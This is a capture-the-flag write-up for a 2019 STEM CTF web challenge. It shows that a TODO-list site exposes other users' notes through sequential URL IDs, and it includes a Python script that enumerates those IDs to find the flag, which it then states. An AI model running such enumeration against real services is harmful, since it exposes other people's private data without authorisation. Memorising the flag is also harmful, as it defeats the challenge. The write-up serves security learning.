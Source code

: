 # STEM CTF Cyber Challenge 2019 – TODO

* **Category:** Web
* **Points:** 100

## Challenge

> TODO: Remember where I put that flag...
> 
> http://138.247.13.110/

## Solution

The website simulates a TODO list application. Basically, URLs like `http://138.247.13.110/todolist/1000/` can be enumerated to read TODO notes of other users.

One of them contains the flag: `http://138.247.13.110/todolist/678/`.

To discover it, a [Python script](todo.py) can be written.

```python
import time
import random
import os
import urllib2

target_url = "http://138.247.13.110/todolist/{}/"

for i in range (1, 1000):

   try:
      # Call web page.
      url = target_url.format(str(i))
      print "[*] Calling web page '{}'.".format(url)
      req = urllib2.Request(url)
      page = urllib2.urlopen(req)
      content = page.read()
      
      # Flag found.
      if "MCA{" in content:
         print content
         break
   
   except urllib2.HTTPError as err:
      print "[*] Response > {}".format(err.code)

   # Go to sleep.
   sleep_interval = random.randint(1, 4)
   print "[*] Sleeping {} secs.".format(sleep_interval)
   time.sleep(sleep_interval)
```

The flag is the following.

```
MCA{al3x4_5et_a_r3minder} 
```